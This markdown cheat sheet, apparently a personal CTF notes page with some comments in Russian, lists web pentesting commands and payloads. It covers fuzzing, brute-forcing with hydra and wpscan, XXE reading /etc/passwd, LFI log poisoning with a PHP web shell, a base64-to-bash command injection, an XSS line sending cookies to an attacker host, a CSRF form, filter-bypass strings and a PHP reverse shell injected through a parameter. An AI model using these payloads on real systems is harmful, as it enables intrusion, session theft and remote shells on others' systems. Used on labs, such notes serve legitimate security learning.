

[back](../README.md)
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://$IP/island/2100/FUZZ.ticket

feroxbuster -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200

ffuf -replay-proxy http://127.0.0.1:8080 #ffuf with proxy

wfuzz -c -z file,numbers.txt -d "number=FUZZ" --hw 81 http://sustah.thm:8085/

subdinder -d target.com -silent | dnsx -silent | gau
```
---
#### Discover subdomains:
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 

gobuster vhost -u http://holo.live -w /usr/share/seclists/Discovery/DNS/subdomains.txt -t 30

wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fw 125

ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm"

amass enum -brute -passive -d nahamstore.com | anew subdomains.txt
```
---
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
---
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
---
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<product>
  <id>123</id>
  <name>Product XYZ</name>
  <quantity>&xxe;</quantity>
</product>
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
]>
```
---
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index

curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"

http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
---
---
#### cadaver for WebDAV
---
#### payload in json format
```
"\";echo <base64 payload> | base64 -d | bash;\""
```
---
#### sqlmap
```bash
sqlmap -r req.txt -p <parametr> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt-p  -D <database_name> --dump-all

--tamper=space2comment #bypass waf
```

---
#### steal cookie
```
<script>window.location='http://<ip>:port/?cookie=' + document.cookie</script>

<script>document.write('');</script>
```
---
#### brute force login

```
hydra -l admin -P /usr/share/seclists/rockyou.txt $IP http-get /inferno
```
#### CSRF
```
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="user" />
      <input type="hidden" name="status" value="on" />
      <input type="submit" value="Submit request" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

```
как можно байпаснуть csrf: 
change method of request
intersept request, get scrf toket, drop request, paste it in csrf poc
delete scrf token
```
---
#### lfi bypass
```
file/etc/passwd?/
file/etc/passwd%3F/
file/etc%252Fpasswd/
file/etc%252Fpasswd%3F/
file/etc/?/../passwd
file/etc/%3F/../passwd?
```

---
#### bypass
```
добавляешь пользователя, формат json, то добавить “role”:"admin"
────────────────────────────────────────────
можно байпаснуть /admin если не пускают: /adMin или /adMin/users
────────────────────────────────────────────
можно удалять эвенты в html, которые выполняют фильтровку 
────────────────────────────────────────────
w'h'o'a'm'i
────────────────────────────────────────────
what=order&id=5$(php -r '$sock=fsockopen("10.18.22.27",5555);exec("sh <&3 >&3 2>&3");')
────────────────────────────────────────────
....//....//....//....//....//....//etc/passwd%00.jpg 
....//....//....//..../
────────────────────────────────────────────
%20 - вместо пробела
%0A - с новой строки
file.php%00.jpg #null byte/....//....//etc/passwd%00
────────────────────────────────────────────
можно перезарегаться за пользователя, добавив просто пробел перед его username
────────────────────────────────────────────
bypass limit
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1
────────────────────────────────────────────
login with '*'
search with '.*'
────────────────────────────────────────────
поменять post на get и на оборот
────────────────────────────────────────────
поменять string на int и на оборот
────────────────────────────────────────────
username: ad'||'min
password: a' IS NOT 'b
────────────────────────────────────────────
` ` {}
────────────────────────────────────────────
register admin user with admin%00
────────────────────────────────────────────
index.php~ - сохнарить sourse code
────────────────────────────────────────────
────────────────────────────────────────────
────────────────────────────────────────────
────────────────────────────────────────────
```
---
#### links
- [steal admin cookie/sqli](./src/src_for_src/marketplace.md) (tryhackme:marketplace)
- [ohmyweb](./src/src_for_src/omyweb.md)
